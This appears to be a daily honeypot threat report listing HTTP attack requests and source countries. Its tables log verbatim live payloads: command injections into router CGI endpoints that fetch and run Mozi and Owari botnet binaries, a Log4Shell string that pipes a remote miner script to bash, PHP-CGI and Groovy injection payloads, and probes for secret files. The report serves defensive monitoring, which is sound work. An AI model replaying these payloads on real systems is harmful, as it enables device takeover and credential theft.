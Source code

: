 ```yaml
---
title: "Report: 2025-04-12 "
date: 2025-04-12
desciption: "Report: 2025-04-12" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-12 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 47 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1857 requests were recorded during the day, originating from 4 different countries, with a peak of 420 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| US               | Germany            |
| US               | Germany            |
| JP               | Germany            |
| SG               | Germany            |
| US               | Singapore          |
| MY               | Australia          |
| US               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                     |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 58.146.59.84  | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                      |
| 222.85.37.31  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://222.85.37.31:43346/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 31.170.22.205 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(chmod+777+%2Ftmp%3B+cd+%2Ftmp%3B+wget+http%3A%2F%2F31.170.22.205%2Fdl17%3B+sh+dl17) HTTP/1.1         |
| 31.170.22.205 | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;cd+/tmp;wget+http://31.170.22.205/dl18;busybox+wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1       |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                  |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  13 |                     8 | POST /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3D0+%ADd+disable_functions%3D\x22\x22+%ADd+allow_url_include%3D1+%ADd+auto_prepend_file%3Dphp://input HTTP/1.1                                                                                                                                                         |
|  34 |                     4 | GET /$%7Bj$%7Bk8s:k5:-ND%7Di$%7Bsd:k5:-:%7Dldap://46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDYuOC4yMjYuMTk2L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1zOyB3Z2V0IC1xTy0gaHR0cDovLzQ2LjguMjI2LjE5Ni9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtcw==%7D HTTP/1.1 |
|  88 |                     2 | GET /AHT/AHT_UI/config.prod.js HTTP/1.1                                                                                                                                                                                                                                                                                  |
| 130 |                     2 | GET /vendor/phpunit/phpunit/LICENSE HTTP/1.1                                                                                                                                                                                                                                                                             |
| 132 |                     2 | GET /vendor/phpunit/phpunit/src/Util/PHP/ HTTP/1.1                                                                                                                                                                                                                                                                       |
| 143 |                     2 | GET /ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application HTTP/1.1                                                                                                                                                                                                                                |
| 145 |                     2 | GET /_all_dbs HTTP/1.1                                                                                                                                                                                                                                                                                                   |
| 148 |                     2 | GET /?rest_route=/wp/v2/users/ HTTP/1.1                                                                                                                                                                                                                                                                                  |
| 150 |                     2 | GET /@vite/env HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 155 |                     2 | GET /about HTTP/1.1                                                                                                                                                                                                                                                                                                      |
| 281 |                     1 | POST /.env.development HTTP/1.1                                                                                                                                                                                                                                                                                          |
| 284 |                     1 | POST /laravel/.env HTTP/1.1                                                                                                                                                                                                                                                                                              |
| 303 |                     1 | POST /.env.project HTTP/1.1                                                                                                                                                                                                                                                                                              |
| 305 |                     1 | POST /development/.env HTTP/1.1                                                                                                                                                                                                                                                                                          |
| 309 |                     1 | POST /live_env HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 315 |                     1 | POST /admin-app/.env HTTP/1.1                                                                                                                                                                                                                                                                                            |
| 322 |                     1 | POST /app/.env HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 327 |                     1 | GET /bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d%20 HTTP/1.1                                                                                                             |
| 397 |                     1 | GET /odinhttpcall1744439663 HTTP/1.1                                                                                                                                                                                                                                                                                     |
| 411 |                     1 | GET /Odin/http/call1744439663 HTTP/1.1                                                                                                                                                                                                                                                                                   |
| 412 |                     1 | GET /OdinHttpCall1744439663 HTTP/1.1                                                                                                                                                                                                                                                                                     |
| 416 |                     1 | GET /api HTTP/1.1                                                                                                                                                                                                                                                                                                        |
| 417 |                     1 | GET /.env_example HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 428 |                     1 | GET /s/236313e2535313e29393e2933313/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties HTTP/1.1                                                                                                                                                                                                       |
| 433 |                     1 | GET /env.test.js HTTP/1.1                                                                                                                                                                                                                                                                                                |
| 435 |                     1 | GET /config/settings.ini HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 436 |                     1 | GET /env.prod.js HTTP/1.1                                                                                                                                                                                                                                                                                                |
| 437 |                     1 | GET /.venv HTTP/1.1                                                                                                                                                                                                                                                                                                      |
| 440 |                     1 | GET /.environment HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 478 |                     1 | GET /docker.sh HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 480 |                     1 | GET /src/app.js HTTP/1.1                                                                                                                                                                                                                                                                                                 |
| 482 |                     1 | GET /php5.ini HTTP/1.1                                                                                                                                                                                                                                                                                                   |
| 483 |                     1 | GET /dump.sh HTTP/1.1                                                                                                                                                                                                                                                                                                    |
| 484 |                     1 | GET /server.key HTTP/1.1                                                                                                                                                                                                                                                                                                 |
| 487 |                     1 | GET /storage/app/private/.env HTTP/1.1                                                                                                                                                                                                                                                                                   |
| 509 |                     1 | POST /index HTTP/1.1                                                                                                                                                                                                                                                                                                     |
| 511 |                     1 | GET /s/3323e2832323e27353e21333/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties HTTP/1.1                                                                                                                                                                                                           |
| 517 |                     1 | \x00\x0E8\xF7\xBC\xA2\xAE\x8AV \xC6\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                  |
| 518 |                     1 | \x00\x0E\x08\xF7\xBC\xA2\xAE\x8AV \xC6\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                               |
| 527 |                     1 | GET /i2yH HTTP/1.1                                                                                                                                                                                                                                                                                                       |
| 529 |                     1 | GET /socket.io/1/?t=1744479887263 HTTP/1.1                                                                                                                                                                                                                                                                               |
| 547 |                     1 | GET /odinhttpcall1744426989 HTTP/1.1                                                                                                                                                                                                                                                                                     |
| 552 |                     1 | GET /7iXd HTTP/1.1                                                                                                                                                                                                                                                                                                       |
| 562 |                     1 | GET /Odin/http/call1744426989 HTTP/1.1                                                                                                                                                                                                                                                                                   |
| 563 |                     1 | GET /OdinHttpCall1744426989 HTTP/1.1                                                                                                                                                                                                                                                                                     |
| 592 |                     1 | POST /apps/.env HTTP/1.1                                                                                                                                                                                                                                                                                                 |
| 598 |                     1 | GET /hhZ2 HTTP/1.1                                                                                                                                                                                                                                                                                                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   420 | GB                 |
|  1 |                   345 | US                 |
|  2 |                   198 | NL                 |
|  3 |                   151 | SC                 |
|  4 |                   144 | DE                 |
|  5 |                   109 | MY                 |
|  6 |                   108 | BG                 |
|  7 |                   102 | PL                 |
|  8 |                    49 | VN                 |
|  9 |                    26 | CN                 |
| 10 |                    23 | NO                 |
| 11 |                    20 | HK                 |
| 12 |                    19 | CH                 |
| 13 |                    18 | FR                 |
| 14 |                    17 | NG                 |
| 15 |                    17 | LV                 |
| 16 |                    12 | ID                 |
| 17 |                     9 | PT                 |
| 18 |                     7 | JP                 |
| 19 |                     6 | CA                 |
| 20 |                     6 | KR                 |
| 21 |                     6 | BE                 |
| 22 |                     5 | IN                 |
| 23 |                     4 | SG                 |
| 24 |                     4 | UA                 |
| 25 |                     4 | TH                 |
| 26 |                     4 | TR                 |
| 27 |                     4 | IR                 |
| 28 |                     3 | RU                 |
| 29 |                     3 | IT                 |
| 30 |                     2 | MD                 |
| 31 |                     2 | GR                 |
| 32 |                     2 | BR                 |
| 33 |                     1 | AU                 |
| 34 |                     1 | MC                 |
| 35 |                     1 | VE                 |
| 36 |                     1 | BD                 |
| 37 |                     1 | EE                 |
| 38 |                     1 | AE                 |
| 39 |                     1 | PK                 |
| 40 |                     1 | AO                 |
